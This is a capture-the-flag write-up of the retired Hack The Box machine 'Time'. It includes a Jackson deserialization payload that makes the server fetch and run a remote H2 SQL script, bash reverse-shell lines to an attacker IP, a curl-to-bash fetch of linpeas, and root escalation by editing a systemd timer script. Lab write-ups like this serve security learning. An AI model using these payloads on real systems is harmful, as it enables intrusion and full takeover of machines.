

# Time

This is the write-up for the box Time that got retired at the 3rd April 2021.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.214    time.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/time.nmap 10.10.10.214
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Online JSON parser
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page hosts an _online JSON beautifier & validator_ and the _validate_ function is marked as "beta".



It parses JSON data, but the _validate_ function displays that _"Validation failed"_.

When sending anything other than JSON data to the validator, it displays a **Java error message**:
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'anything': was expecting ('true', 'false' or 'null')
```

It uses the [Jackson](https://github.com/FasterXML/jackson) library to parse JSON for Java.
By searching for vulnerabilities in **Java Jackson**, an [article from Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) explains a Remote Code Execution vulnerability.

Sending the payload from the article to check the **JDBC Driver**:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:"}]

Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.JsonMappingException: Infinite recursion (StackOverflowError) (through reference chain: org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]
->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]
(...)
```

Using the JDBC Driver to check if it connects to our client:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:8000/inject.sql'"}]
```
```
nc -lvnp 8000

Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:50170.
GET /inject.sql HTTP/1.1
User-Agent: Java/11.0.8
Host: 10.10.14.10:8000
```

The connection is successful, so a malicious script has to be hosted on our local client and Java will execute it.
Creating a script that executes a reverse shell:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.10/9001 0>&1')
```

Sending the payload again:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:8000/inject.sql'"}]
```

After sending the payload, it will download _inject.sql_ and execute the command to start a reverse shell connection on the listener on my IP and port 9001 as the user _pericles_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

The user _pericles_ owns the file _/usr/bin/timer_backup.sh_ that compresses the directory of the web page and puts it in the home folder of root:
```
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

This bash script is used in a **Systemd Timer** and is automatically executed:
```
grep -r timer_backup.sh / 2>/dev/null
/etc/systemd/system/web_backup.service
```

The script can be edited to execute a reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'
```

After saving the file, the **Systemd timer** will run it and the listener on my IP and port 9002 starts a reverse shell as root!
